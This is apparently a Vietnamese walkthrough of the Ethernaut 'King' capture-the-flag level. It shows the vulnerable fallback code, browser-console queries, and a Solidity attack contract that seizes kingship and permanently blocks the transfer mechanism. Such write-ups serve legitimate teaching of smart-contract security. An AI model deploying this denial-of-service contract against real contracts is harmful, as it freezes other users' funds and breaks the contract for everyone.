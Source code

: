 ```js
function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

- Ta nảy ra ý tưởng làm cho hàm `king.transfer(msg.value)` không thành công và transaction bị revert.
- Chuẩn bị một contract không có `payable` fallback, chiếm quyền và thế là xong.

### Solution

- Trên Chrome Console, kiểm tra king hiện tại:

```js
await contract.king()
```

- Kiểm tra price hiện tại:

```js
await contract.prize().then(x => x.toNumber);
> 1000000000000000000
```
nghĩa là giải thưởng hiện tại là 1 ether

- Trên Remix IDE, chuẩn bị một contract tấn công không có `payable fallback`

```js
contract Attack {

  function steal(address _target) public payable {
    if(!_target.call.value(msg.value)()) revert();
  }
}
```

- Compile và chạy hàm steal, `_target` là target của instance của bạn, `msg.value` ta cho một giá trị lớn hơn prize hiện tại, ví dụ 1.1 ether (1100 finneys).

- Kiểm tra lại king hiện tại và thấy đang là bạn:

```js
await contract.king()
```

- Sử dụng một tài khoản khác, gửi tiền vào King contract với một giá trị lớn hơn prize hiện tại để xem có chiếm được quyền King hay không. Nếu không chiếm được, bạn đã thành công.

- Submit && all done!

### Bình luận

- Bài này khá là tricky.
- Một lần nữa cho thấy tầm quan trọng cũng như sự nguy hiểm trong cách sử dụng fallback function. Tiền nong mà!
- Việc tấn công một contract tốt nhất luôn luôn là dùng một contract khác.
